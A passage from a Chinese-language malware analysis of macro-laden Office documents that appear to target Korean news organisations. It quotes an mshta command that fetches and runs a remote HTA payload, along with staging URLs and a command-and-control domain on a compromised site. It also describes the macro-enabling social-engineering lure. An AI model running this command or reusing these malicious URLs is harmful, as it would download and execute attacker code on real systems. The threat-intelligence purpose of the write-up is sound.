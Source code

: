 [![](https://p2.ssl.qhimg.com/dm/1024_544_/t01d2688c483030cabc.png)](https://p2.ssl.qhimg.com/dm/1024_544_/t01d2688c483030cabc.png)

#### <a class="reference-link" name="0x01%20%E6%A0%B7%E6%9C%AC%E5%88%86%E6%9E%90"></a>0x01 样本分析

其与上文所述相同不过,本样本执行的命令是:

`mshta http://nhpurumy.mireene.com/theme/basic/skin//member/basic/upload/search.hta /f`

[![](https://p1.ssl.qhimg.com/dm/1024_422_/t016d9f61e9cff08a61.png)](https://p1.ssl.qhimg.com/dm/1024_422_/t016d9f61e9cff08a61.png)

相同的中转`search.hta`

中转地址为:`http://nhpurumy.mireene.com/theme/basic/skin/member/basic/upload/eweerew.php?er=1`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ce920216bcd7dabe.png)

其执行的vbs代码与上文类似,在这里就不做赘述了.不过其计划任务所执行的第二部分`hta`的`url`地址为:<br>`http://nhpurumy.mireene.com/theme/basic/skin/member/basic/upload/cfhkjkk.hta`

[![](https://p1.ssl.qhimg.com/dm/1024_180_/t01987146c142f6c165.png)](https://p1.ssl.qhimg.com/dm/1024_180_/t01987146c142f6c165.png)

之后的部分代码与上文相同,不过其`C2`的地址为`nhpurumy.mireene.com`。在此就不赘述了。

被入侵的网站可能是一个广告公司:

[![](https://p4.ssl.qhimg.com/dm/1024_516_/t01a41c94a1fd77c445.png)](https://p4.ssl.qhimg.com/dm/1024_516_/t01a41c94a1fd77c445.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_413_/t0181c61e0905013918.png)

### <a class="reference-link" name="3.%EB%B6%99%EC%9E%84.%20%EC%A0%84%EB%AC%B8%EA%B0%80%20%EC%B9%BC%EB%9F%BC%20%EC%9B%90%EA%B3%A0%20%EC%9E%91%EC%84%B1%20%EC%96%91%EC%8B%9D.doc%EF%BC%88%E9%99%84%E4%B8%8A.%E4%B8%93%E5%AE%B6%E4%B8%93%E6%A0%8F%E6%89%8B%E7%A8%BF%E8%A1%A8%E6%A0%BC.doc%EF%BC%89"></a>3.붙임. 전문가 칼럼 원고 작성 양식.doc（附上.专家专栏手稿表格.doc）

#### <a class="reference-link" name="0x01%E6%96%87%E6%A1%A3%E4%BF%A1%E6%81%AF:"></a>0x01文档信息:

##### <a class="reference-link" name="%E6%A0%B7%E6%9C%AC%E4%BF%A1%E6%81%AF:"></a>样本信息:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t011c74302313987dc4.png)

该样本利用**社会工程学**的办法，诱使目标点击“**启用内容**”来执行宏的恶意代码。启用宏后显示的正文内容。通过谷歌翻译，提取到几个关键词：**稿件、专家专栏**。<br>
可以看出，这可能是针对**韩国新闻机构**发起的一次攻击活动。
